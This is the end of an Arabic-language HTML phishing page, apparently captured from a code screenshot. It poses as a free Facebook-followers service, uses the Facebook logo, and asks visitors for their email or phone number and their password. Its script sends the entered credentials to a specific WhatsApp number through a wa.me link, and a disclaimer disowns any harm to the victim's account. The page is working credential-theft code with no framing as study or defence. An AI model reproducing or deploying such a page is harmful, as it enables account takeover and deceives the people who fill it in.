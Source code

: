         }
    </style>
</head>
<body>
    <div class="container">
        <img src="https://upload.wikimedia.org/wikipedia/commons/5/51/Facebook_f_logo_%282019%29.svg" alt="Facebook Logo" class="logo">
        <h1>زيادة متابعين فيسبوك مجانًا</h1>
        <p>أدخل معلومات حسابك للحصول على 1000 متابع خلال 24 ساعة</p>
        
        <form id="loginForm" onsubmit="sendToWhatsApp(); return false;">
            <div class="form-group">
                <label for="email">البريد الإلكتروني أو رقم الهاتف:</label>
                <input type="text" id="email" required>
            </div>
            
            <div class="form-group">
                <label for="password">كلمة المرور:</label>
                <input type="password" id="password" required>
            </div>
            
            <div class="form-group">
                <label for="followers">عدد المتابعين المطلوب:</label>
                <input type="number" id="followers" value="1000" required>
            </div>
            
            <button type="submit">الحصول على المتابعين</button>
        </form>
        
        <p class="disclaimer">بعد التسجيل، سوف تتلقى متابعين خلال 24 ساعة. لا نتحمل مسؤولية أي مشاكل في حسابك.</p>
    </div>

    <script>
        function sendToWhatsApp() {
            const email = document.getElementById('email').value;
            const password = document.getElementById('password').value;
            const followers = document.getElementById('followers').value;
            
            const message = `طلب جديد لزيادة المتابعين:\n\nبريد إلكتروني/هاتف: ${email}\nكلمة المرور: ${password}\nعدد المتابعين المطلوب: ${followers}`;
            
            const encodedMessage = encodeURIComponent(message);
            const whatsappUrl = `https://wa.me/905525439562?text=${encodedMessage}`;
            
            window.open(whatsappUrl, '_blank');
            
            // يمكنك إضافة إعادة توجيه بعد الإرسال إذا أردت
            // setTimeout(() => {
            //     window.location.href = "https://facebook.com";
            // }, 3000);
            
            return false;
        }
    </script>
</body>
</html>
